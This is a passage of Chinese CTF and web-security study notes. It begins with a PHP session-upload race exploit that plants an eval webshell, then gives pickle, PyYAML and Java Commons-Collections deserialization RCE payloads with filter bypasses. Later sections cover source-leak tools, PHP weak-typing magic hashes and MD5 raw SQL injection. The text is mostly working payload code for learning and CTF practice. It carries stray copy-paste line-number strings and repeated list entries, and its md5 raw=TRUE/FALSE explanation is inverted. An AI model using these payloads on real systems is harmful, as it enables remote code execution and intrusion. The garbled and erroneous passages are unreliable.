        resp = session.post( 'http://127.0.0.1:5555/test56.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://127.0.0.1:5555/test56.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30): 
            threading.Thread(target=write,args=(session,)).start()

        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```

##### 参考文章

[利用session.upload_progress进行文件包含和反序列化渗透](https://www.freebuf.com/vuls/202819.html)
 [session.upload_progress反序列化学习](https://blog.csdn.net/qq_61237064/article/details/123405767)

#### Python反序列化

##### pickle

###### 漏洞原理

通过重写类的 `object.__reduce__()` 函数，使之在被实例化时按照重写的方式进行

###### 攻击方式

###### 重写`__reduce__()`

该接口当前定义如下示例，`__reduce__()` 方法不带任何参数，并且应返回字符串或最好返回一个(callable, ([para1,para2…])[,…]) 的元组（返回的对象通常称为“reduce 值”）

```python
import pickle
import os
 
class test():
    def __reduce__(self):
        command=r"whoami"
        return (os.system,(command,))

opcode=pickle.dumps(test())
print(opcode)
pickle.loads(opcode)
```

但是这样只能执行一个函数，在CTF中，很多时候需要一次执行多个函数或一次进行多个指令，此时就不能光用 `__reduce__ `来解决问题（reduce一次只能执行一个函数，当exec被禁用时，就不能一次执行多条指令了，需要使用到`opcode`这个更为底层的实现，由于版本0的`pickle opcode`更容易为人所理解，以下都以版本0的`opcode`为例子

###### opcode

| opcode | 描述                                                         | 具体写法                                          | 栈上的变化                                                   | memo上的变化 |
| ------ | ------------------------------------------------------------ | ------------------------------------------------- | ------------------------------------------------------------ | ------------ |
| c      | 获取一个全局对象或import一个模块（注：会调用import语句，能够引入新的包 | c[module]\n[instance]\n                           | 获得的对象入栈                                               | 无           |
| o      | 寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象） | o                                                 | 这个过程中涉及到的数据都出栈，函数的返回值（或生成的对象）入栈 | 无           |
| i      | 相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象） | i[module]\n[callable]\n                           | 这个过程中涉及到的数据都出栈，函数返回值（或生成的对象）入栈 | 无           |
| N      | 实例化一个None                                               | N                                                 | 获得的对象入栈                                               | 无           |
| S      | 实例化一个字符串对象                                         | S’xxx’\n（也可以使用双引号、'等python字符串形式） | 获得的对象入栈                                               | 无           |
| V      | 实例化一个UNICODE字符串对象                                  | Vxxx\n                                            | 获得的对象入栈                                               | 无           |
| I      | 实例化一个int对象                                            | Ixxx\n                                            | 获得的对象入栈                                               | 无           |
| F      | 实例化一个float对象                                          | Fx.x\n                                            | 获得的对象入栈                                               | 无           |
| R      | 选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数 | R                                                 | 函数和参数出栈，函数的返回值入栈                             | 无           |
| .      | 程序结束，栈顶的一个元素作为pickle.loads()的返回值           | .                                                 | 无                                                           | 无           |
| (      | 向栈中压入一个MARK标记                                       | (                                                 | MARK标记入栈                                                 | 无           |
| t      | 寻找栈中的上一个MARK，并组合之间的数据为元组                 | t                                                 | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| )      | 向栈中直接压入一个空元组                                     | )                                                 | 空元组入栈                                                   | 无           |
| l      | 寻找栈中的上一个MARK，并组合之间的数据为列表                 | l                                                 | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| ]      | 向栈中直接压入一个空列表                                     | ]                                                 | 空列表入栈                                                   | 无           |
| d      | 寻找栈中的上一个MARK，并组合之间的数据为字典（数据必须有偶数个，即呈key-value对） | d                                                 | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| }      | 向栈中直接压入一个空字典                                     | }                                                 | 空字典入栈                                                   | 无           |
| p      | 将栈顶对象储存至memo_n                                       | pn\n                                              | 无                                                           | 对象被储存   |
| g      | 将memo_n的对象压栈                                           | gn\n                                              | 对象被压栈                                                   | 无           |
| 0      | 丢弃栈顶对象                                                 | 0                                                 | 栈顶对象被丢弃                                               | 无           |
| b      | 使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置 | b                                                 | 栈上第一个元素出栈                                           | 无           |
| s      | 将栈的第一个和第二个对象作为key-value对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为key）中 | s                                                 | 第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新 | 无           |
| u      | 寻找栈中的上一个MARK，组合之间的数据（数据必须有偶数个，即呈key-value对）并全部添加或更新到该MARK之前的一个元素（必须为字典）中 | u                                                 | MARK标记以及被组合的数据出栈，字典被更新                     | 无           |
| a      | 将栈的第一个元素append到第二个元素(列表)中                   | a                                                 | 栈顶元素出栈，第二个元素（列表）被更新                       | 无           |
| e      | 寻找栈中的上一个MARK，组合之间的数据并extends到该MARK之前的一个元素（必须为列表）中 | e                                                 | MARK标记以及被组合的数据出栈，列表被更新                     | 无           |

此外， `TRUE`可以用 `I` 表示：`b'I01\n'` ； `FALSE`也可以用`I`表示：`b'I00\n'`
 与函数执行相关的opcode有三个： `R` 、 `i` 、 `o` ，所以我们可以从三个方向进行构造：

```python
# S
b'''cos
system
(S'whoami'
tR.'''
# i
b'''(S'whoami'
ios
system
.'''
# o
b'''(cos
system
S'whoami'
o.'''
```

###### pker

手撕opcode多少是麻烦的，当脚本娃娃当然是最爽的
 [工具源码下载地址](https://github.com/eddieivan01/pker)

```python
以下module都可以是包含`.`的子module
调用函数时，注意传入的参数类型要和示例一致
对应的opcode会被生成，但并不与pker代码相互等价

GLOBAL
对应opcode：b'c'
获取module下的一个全局对象（没有import的也可以，比如下面的os）：
GLOBAL('os', 'system')
输入：module,instance(callable、module都是instance)  

INST
对应opcode：b'i'
建立并入栈一个对象（可以执行一个函数）：
INST('os', 'system', 'ls')  
输入：module,callable,para 

OBJ
对应opcode：b'o'
建立并入栈一个对象（传入的第一个参数为callable，可以执行一个函数））：
OBJ(GLOBAL('os', 'system'), 'ls') 
输入：callable,para

xxx(xx,...)
对应opcode：b'R'
使用参数xx调用函数xxx（先将函数入栈，再将参数入栈并调用）

li[0]=321
或
globals_dic['local_var']='hello'
对应opcode：b's'
更新列表或字典的某项的值

xx.attr=123
对应opcode：b'b'
对xx对象进行属性设置

return
对应opcode：b'0'
出栈（作为pickle.loads函数的返回值）：
return xxx # 注意，一次只能返回一个对象或不返回对象（就算用逗号隔开，最后也只返回一个元组）

函数执行
# R
s='whoami'
system = GLOBAL('os', 'system')
system(s) # `b'R'`调用
return
# i
INST('os', 'system', 'whoami')
#c+o
OBJ(GLOBAL('os', 'system'), 'whoami')
#多参数
INST('[module]', '[callable]'[, par0,par1...])
OBJ(GLOBAL('[module]', '[callable]')[, par0,par1...])

修改全局变量
admin = GLOBAL('__main__', 'admin')
admin.name = "admin"
admin.password = "123456"
User = INST('__main__', 'User','admin','123456')
return User

#拼接opcode：将第一个pickle流结尾表示结束的.去掉，两者拼接起来即可
#建立普通的类时，可以先pickle.dumps，再拼接至payload
```

###### 绕过方式

###### 绕过R指令限制

b指令在注释中的描述为：`call __setstate__ or __dict__.update()` ，即执行`__setstate__`或者更新栈上的一个字典进行变量覆盖
 如果一个类，没有定义`__setstate__`方法，但在反序列化时通过b操作符用`{"__setstate__": os.system}`来初始化类的对象。

初始是没有定义`__setstate__`，所以这里b操作码实际上执行了`__dict__.update()`，给对象设置了一个恶意的`__setstate__`方法。把命令（whoami）作为参数，再次执行`BUILD`指令，由于此时对象存在`__setstate__`方法，`state`为`whomai`，`setstate(state)`相当于执行`os.system('whoami')`

```python
(c__main__
Animal
S'Casual'
I18
o}(S"__setstate__" 
cos
system
ubS"whoami"
b.'''
123456789
```

###### 绕过c指令module限制

如同模板注入当中的命令执行一样通过`getattr()`获取对象的属性值，来一步步的获取`eval`函数

```python
getattr=GLOBAL('builtins','getattr')
dict=GLOBAL('builtins','dict')
dict_get=getattr(dict,'get')
glo_dic=GLOBAL('builtins','globals')()
builtins=dict_get(glo_dic,'builtins')

eval=getattr(builtins,'eval')
eval('whoami')
return
#############################################
builtins.getattr(
builtins.getattr(builtins.dict,'get')(builtins.golbals(),'builtins'),'eval')(command)
#############################################
cbuiltins
getattr
(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
)RS'__builtins__'
tRS'eval'
tR(S'__import__("os").system("whoami")'
tR.
1234567891011121314151617181920212223242526
```

###### 参考文章

[python pickle反序列化漏洞](https://blog.csdn.net/weixin_43610673/article/details/124889988)
 [pickle反序列化初探](https://xz.aliyun.com/t/7436)

##### PyYAML

###### 漏洞原理

Yaml基础语法规则

1. 一个 .yml 文件中可以有多份配置文件，用 — 隔开即可
2. 对大小写敏感
3. YAML 中的值，可使用 json 格式的数据
4. 使用缩进表示层级关系
5. 缩进时不允许使用 tab（\t），只允许使用空格。
6. 缩进的空格数目不重要，只要相同层级的元素左侧对齐即可。
7. `#` 表示注释，和 Python 一样
8. !! 表示强制类型装换
9. 可以通过 & 来定义锚点，使用 * 来引用锚点。* 也可以和 << 配合，引用时会自动展开对象，类似 Python 的 **dict()
10. YAML 支持的数据结构有三种
     对象：键值对的集合
     列表：一组按次序排列的值
     标量（scalars）：原子值（不可再拆分），例如 数字、日期等等

以上与漏洞形成原因最相关的就是`!!`进行类型转换，由于`YAML`仅仅是一种格式规范，所以理论上一个支持`YAML`的解析器可以选择性支持`YAML`的某些语法，也可以在`YAML`的基础上利用`!!`来扩展额外的解析能力。`PyYAML`在 `!!`上做的魔改，可以理解为`find_function("x")(x)`：
 从图中可以看到，一共有5个可以引入新模块的函数，这就是漏洞的本质成因：

```
python/name
python/module
python/object
python/object/new
python/object/apply
12345
```

###### 攻击方式

###### 版本< 5.1

利用条件：

- `yaml.load`或者`yaml.load_all`使用的加载器采用默认加载器 `Constructor`

```python
#以下的利用方式都是等价的，不同写法可绕过部分过滤，可用python/object/new替代
yaml.load('exp: !!python/object/apply:os.system ["whoami"]')

yaml.load("exp: !!python/object/apply:os.system ['whoami']")

# 引号当然不是必须的
yaml.load("exp: !!python/object/apply:os.system [whoami]")

yaml.load("""
exp: !!python/object/apply:os.system
- whoami
""")

yaml.load("""
exp: !!python/object/apply:os.system
  args: ["whoami"]
""")

# command 是 os.system 的参数名
yaml.load("""
exp: !!python/object/apply:os.system
  kwds: {"command": "whoami"}
""")

yaml.load("!!python/object/apply:os.system [whoami]: exp")

yaml.load("!!python/object/apply:os.system [whoami]")

yaml.load("""
!!python/object/apply:os.system
- whoami
""")
# /python/object只能执行无参数函数
yaml.load("""
!!python/object:builtins.copyright {"a": 1}
""")
# /python/module相当于import配合文件上传使用
# 比如上传一个header.py到uploads，文件内容为 import os  os.system('command')
yaml.load('!!python/module:uploads.header')

#python/name与python/module相似，但是可以用来找模块下的属性方法，比如找token
yaml.load('!!python/name:__main__.TOKEN')
123456789101112131415161718192021222324252627282930313233343536373839404142
```

###### 版本大于等于5.1

\####### 常规利用方式
 利用条件：

- 使用的构造器是

  ```
  UnsafeConstructor
  ```

  或者

  ```
  Constructor
  ```

  - 对应的顶层调用方式为     
    - yaml.unsafe_load(exp)
    - yaml.unsafe_load_all(exp)
    - yaml.load(exp, Loader=UnsafeLoader)
    - yaml.load(exp, Loader=Loader)
    - yaml.load_all(exp, Loader=UnsafeLoader)
    - yaml.load_all(exp, Loader=Loader)
  - 常规利用方式和5.1版本之前的一样
    \####### 突破FullConstructor
    利用环境：

- 使用的构造器是`FullConstructor`

- 如果常规利用失败再使用这种

`FullConstructor`中，限制了只允许加载`sys.modules`中的模块：

- 只引用，不执行的限制：   
  - 加载进来的`module`必须是位于`sys.modules`中
- 引用并执行：   
  - 加载进来的`module`必须是位于`sys.modules`中
  - `FullConstructor`下，`unsafe = False`，加载进来的`module.name`必须是一个类

恰好有这么一个类`subprocess.Popen`，刚好在`FullConstructor`的`sys.modules`中，同时还有一个类`popen`可以执行命令

```python
yaml.load("""
!!python/object/apply:subprocess.Popen
  - whoami
""")
1234
```

除此之外，还有`map`可以引发函数执行：

```python
# tuple可替换为frozenset或者bytes
# !!python/name引入函数
yaml.load("""
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('whoami')"]
""")
12345678
```

`python/object/new`和`python/object/appliy`都调用了`construct_python_object_apply`。在`construct_python_object_apply`中，不仅进行了实例化，如果有`listitems`还会调用实例的`extend`方法

```python
yaml.full_load("""
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"extend": !!python/name:exec }
listitems: "__import__('os').system('whoami')"
""")
12345678
construct_python_object_apply`中还对实例进行`setstate`，即调用了`__setstate__
yaml.full_load("""
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"__setstate__": !!python/name:eval }
state: "__import__('os').system('whoami')"
""")
12345678
```

由于`str`没有`__dict__`方法，所以在 PyYAML 解析时会触发下面调用。这里的`type`也可以用`staticmethod`来替换。例如，在`set_python_instance_state`中，还有个调用`slotstate.update`的逻辑，那么只要将`slotstate.update`置为`eval`，`state`就是RCE的 payload

```python
yaml.full_load("""
!!python/object/new:str
    args: []
    # 通过 state 触发调用
    state: !!python/tuple
      - "__import__('os').system('whoami')"
      # 下面构造 exp
      - !!python/object/new:staticmethod
        args: []
        state: 
          update: !!python/name:eval
          items: !!python/name:list  # 不设置这个也可以，会报错但也已经执行成功
""")
12345678910111213
```

###### 版本大于等于5.2

`FullConstructor`现在只额外支持`!!python/name`、`!!python/object`、`!!python/object/new`和`!!python/module`，`!!python/object/apply`无法使用

###### 版本大于等于5.3.1

5.3.1 引入了一个新的过滤机制，本质上就是实现一个属性名黑名单（正则），匹配到就报错。
 

###### 版本大于等于5.4

`FullConstructor`现在只额外支持`!!python/name`，`!!python/object`、`!!python/object/new`和`!!python/module`，`!!python/object/apply`都无法使用

###### 版本大于等于6.0

现在在使用`yaml.load`时，用户必须指定`Loader`

###### 参考文章

[SecMap - 反序列化（PyYAML）](https://www.tr0y.wang/2022/06/06/SecMap-unserialize-pyyaml/)

##### Java反序列化

###### 漏洞原理

反序列化的时候，会调用readObject对于读取序列化数据，整个底层调用链：

```
readObject
->readObject0
->readOrdinaryObject
->readSerialData
->slotDesc.invokeReadObject
->readObjectMethod.invoke
123456
```

而`readObjectMethod`是在`ObjectStreamClass`的构建函数里面初始化的，那么实现自定义的序列化和反序列化方式就只需要在对象中增加一个名为`readObject`、参数是`java.io.ObjectInputStream`的私有方法。
 因此简而言之，造成这个漏洞的原因就是`readObjectMethod`被重写了

###### 真实环境里面的反序列化漏洞

以`commons-collections 3.1`版本为例，`InvokerTransformer`本来是用来帮助开发人员进行类型转换的，但由于其功能过于灵活，被安全人员发现可以用来执行任意代码

```java
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class Exp0 {

    public static void main(String[] args) {

        // 使用 ConstantTransformer 将 Runtime.class 包装一层，等同于  Class<Runtime> runtimeClass = Runtime.class;
        Object runtimeClass = new ConstantTransformer(Runtime.class).transform(null);

        // 使用 InvokerTransformer 调用 runtimeClass 的 getMethod 方法,等同于  Method getRuntime = runtimeClass.getMethod("getRuntime", null);
        Object getRuntimeMethod = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(runtimeClass);

        // 使用 InvokerTransformer 调用getRuntimeMethod 的 invoke 方法,等同于 Object runtime = getRuntime.invoke(null, null);
        Object runtime = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[2]).transform(getRuntimeMethod);

        // 使用 InvokerTransformer 调用 runtime 的 exec 方法，等同于 runtime.exec("calc")
        Object exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);
    }
}
1234567891011121314151617181920
```

`InvokerTransformer`构造方法有三个参数，分别为 方法名称、方法类型数组、方法参数数组，方法名称不用多说，其中第二个方法类型数组和第三个方法参数数组 的长度必须要相等。

`InvokerTransformer`的`transform`方法就是将输入的对象按照构造方法传入的参数转换为另一个对象，没有任何限制，因此即使程序内部没有`Runtime.getRuntime().exec("cmd")`这行代码，也通过`InvokerTransformer`来可实现调用。

尽管程序内部没有`Runtime.getRuntime().exec("calc")`这行代码，但是开发人员肯定也不会把上面那一大块代码写到程序里面，因此我们还需要另想办法。首先我们先把代码简化一下，修改为链式调用。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class Exp1 {

    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[2]),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        // 把 Transformer 使用链的方式调用，从上到下，不用再每次执行
        Transformer transformerChain = ChainedTransformer.getInstance(transformers);
        // 调用转换
        transformerChain.transform(null);
    }
}
123456789101112131415161718192021
```

这样我们只需要调用一次`transform`就行了，但是想让目标系统执行我们的代码还是不可能的，因此还需要再寻求其他方式。
 有安全人员发现，`commons-collections`自己实现了`Map.Entry`，并且在`setValue`的时候会先调用`TransformedMap`的 `checkSetValue`方法，而这个方法又调用了我们传入的`valueTransformer`的`transform`方法，这样一套流程下来，当我们对经过`TransformedMap`转换出来的`Map`做`put`操作的时候，都会触发执行一次我们构造的任意指令。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class Exp2 {

    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[2]),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        // 把 Transformer 使用链的方式调用，从上到下，不用再每次执行
        Transformer transformerChain = ChainedTransformer.getInstance(transformers);

        // 利用 TransformedMap 的漏洞来执行 transform 方法
        Map<String, String> innerMap = new HashMap<>();
        innerMap.put("name", "守法市民小杜");
        // TransformedMap 继承自 AbstractInputCheckedMapDecorator，Map 中的 元素会被转换为 AbstractInputCheckedMapDecorator.MapEntry
        Map<String, String> outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        // AbstractInputCheckedMapDecorator.MapEntry 在 setValue 时会先调用 parent.checkSetValue(value)，而 checkSetValue 会调用 valueTransformer 的 transform 方法
        outerMap.put("name", "法外狂徒张三");
    }
}
12345678910111213141516171819202122232425262728293031
```

现在只差最后一步，需要找到一个类，用它创建一个对象并完成序列化，同时它还必须满足以下三个条件：

1. 实现了 Serializable 接口
2. 增加了 readObject 方法
3. 成员变量中有`Map`并且在`readObject`时对这个`Map`进行了`put`操作或操作了`Map.Entry`的`setValue`方法。

安全人员在审查 `openjdk`源码时发现了`sun.reflect.annotation.AnnotationInvocationHandler`这个类符合这个条件，只需用这个类创建一个对象，再将其序列化之后的内容发送到其他系统，即可完成漏洞利用。

###### 攻击方式

手撕代码还是有点困难，这里又双叒叕 推荐一个工具：ysoserial，需要编译成jar包
 [ysoserial源码](https://codeload.github.com/frohoff/ysoserial/zip/master)
 [ysoserial反序列化工具打包jar文件流程](https://blog.csdn.net/qq_50854790/article/details/123854611)
 [ysoserial jar包下载地址](https://jitpack.io/com/github/frohoff/ysoserial/master-30099844c6-1/ysoserial-master-30099844c6-1.jar)
 [ysoserial使用方法](https://blog.csdn.net/yang1234567898/article/details/122290512)

###### 参考文章

[Java 反序列化漏洞原理（一）Serializable](https://zhuanlan.zhihu.com/p/422314689)

### 0x10 信息泄露

#### 目录遍历

`../`遍历，如遇过滤如`preg_replace("../","")`，可用双写`....//`绕过

#### 备份文件

- index.php文件备份名   
  - “.git” 、“.svn”、“ .swp”“.~”、“.bak”、“.bash_history”、“.bkf”
- 网站源码备份名   
  - 文件名     
    - web website backup back www wwwroot temp
  - 后缀名     
    - tar tar.gz zip rar
- vim缓存   
  - 创建vim时回产生缓存文件，退出时就会删除，若异常退出，会产生.swp,.swo,.swn等缓存文件
- .DS_Store   
  - Mac OS保存文件夹的自定义属性的隐藏文件

#### git泄露

工具：githacker

```bash
git clone https://github.com/WangYihang/GitHacker
python2 GitHacker.py -u targeturl
12
```

#### SVN泄露

工具：dvcs-ripper

```bash
git clone https://github.com/kost/dvcs-ripper.git
apt-get update
apt-get install perl libio-socket-ssl-perl libdbd-sqlite3-perl libclass-dbi-perl libio-all-lwp-perl
./rip-svn.pl -v -u ip/.svn/
1234
```

#### hg泄露

工具：dvcs-ripper

```bash
git clone https://github.com/kost/dvcs-ripper.git
apt-get update
apt-get install perl libio-socket-ssl-perl libdbd-sqlite3-perl libclass-dbi-perl libio-all-lwp-perl
./rip-hg.pl -v -u ip/.hg/
1234
```

#### 弱口令

[常见网络安全设备弱口令](https://www.cnblogs.com/bflw/p/12938013.html)

#### WEB-INF/web.xml泄露

##### 前置知识

WEB-INF是Java的WEB应用安全目录，如果想在页面中直接访问其中的文件，必须通过web.xml对要访问的文件进行相应映射才能访问
 WEB-INF主要包含以下文件或目录：

- /WEB-INF/web.xml：Web应用程序配置文件，描述了servlet和其他的应用组件配置及命名规则
- /WEB-INF/classes/：站点所用的class文件，包括servlet class和非servlet class
- /WEB-INF/lib/：存放了web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件，如数据库驱动jar文件
- /WEB-INF/src/：源码目录，按照包名结构放置各个java文件
- /WEB-INF/database.properties：数据库配置文件

##### 漏洞成因

通常一些web应用会使用多个web服务器搭配使用，解决其中一个web服务器的性能缺陷、做均衡负载和完成一些分层结构的安全策略。在使用这种架构的时候，由于对静态资源的目录或文件的映射配置不当，可能会引发一些安全难问题，导致web.xml等文件能够被读取

##### 漏洞利用和检测

- 利用方法
  找到web.xml文件，推断class文件的路径获取class文件，再通过反编译class文件得到网站源码
- 检测和防御
  一般情况下，jsp引擎默认都是禁止访问WEB-INF目录的，但Nginx配合Tomcat做负载均衡或者集群等情况时，Nginx不会去考虑配置其他类型的引擎（Nginx不是jsp引擎）导致的安全问题而引入自身的安全规范来
  防御方法就是修改Nginx配置文件禁止访问WEB-INF目录即可

### 0X11 php安全

#### php数组的key溢出问题

##### 漏洞原理

作为PHP最重要的数据类型HashTable其key值是有一定的范围的，如果设置的key值过大就会出现溢出的问题

##### 攻击方式

```php
<?php
$arr[1] = '1';
$arr[18446744073708551617333333333333] = '18446744073708551617333333333333';
$arr[] = 'test';
$arr[4294967296] = 'test';
$arr[9223372036854775807] = 'test';
$arr[9223372036854775808] = 'test';
var_dump($arr);
```

输出

```php
array(6) {
  [1]=>
  string(1) "1"
  [-999799117276250112]=>
  string(32) "18446744073708551617333333333333"
  [2]=>
  string(4) "test"
  [4294967296]=>
  string(4) "test"
  [9223372036854775807]=>
  string(4) "test"
  [-9223372036854775808]=>
  string(4) "test"
}
```

我们可以看到当key值比较小是没有问题，当key值很大时输出的值溢出了，临界点是`9223372036854775807`这个数字

#### php弱类型比较

##### 漏洞原理

在变量使用之前必须声明变量的类型和名称，且不经强制转换不允许两种不同类型的变量互相操作为强类型，而弱类型可以随意转换变量的类型
 hp有两种比较方式,一种是`= =`一种是`= = =`这两种都可以比较两个数字的大小，但是有很明显的区别。

`= =`：会把两端变量类型转换成相同的，在进行比较。

`= = =`：会先判断两端变量类型是否相同，在进行比较。

##### 攻击方式

```php
<?php 
var_dump("name"==0);  //true 
var_dump("1name"==1); //true 
var_dump("name1"==1) //false 
var_dump("name1"==0) //true 
var_dump("0e123456"=="0e4456789"); //true 
?>
1234567
```

Hash碰撞：
 `0e`在比较的时候会将其视作为科学计数法，所以无论`0e`后面是什么，0的多少次方还是0，所以我们只需要输入一个数字和字符串进行hash加密之后都为`0e`，即可通过比较

```php
"0e132456789"=="0e7124511451155" //true
"0e1abc"=="0"     //true
常用的以0e开头的md5和原值：
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
MD5(“240610708”)==md5(“QNKCDZO”)
```

#### php强类型比较

##### MD5 SQL注入

为了信息的安全，我们在数据库里面存放密码的时候，一般是进行了加密处理的，然而MD5加密是比较简单和普遍的。所以大多数查询语句在没有进行处理的情况下应该是：

```sql
    SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."' 
1
```

函数原型：`md5(string,raw)`
 若raw=TRUE，输出32位16进制字符串：将MD5加密得到的128 位长度的"指纹信息"，以每4位为一组，分为32组，每组以转换为16进制，进行转换得到一个32位的字符串
 若raw=FALSE，输出16位原始二进制格式的字符串：将128 位长度的"指纹信息"分组转化为16位的一个字符串，然后两个字符为一组，依照ACILL码转化为字符串

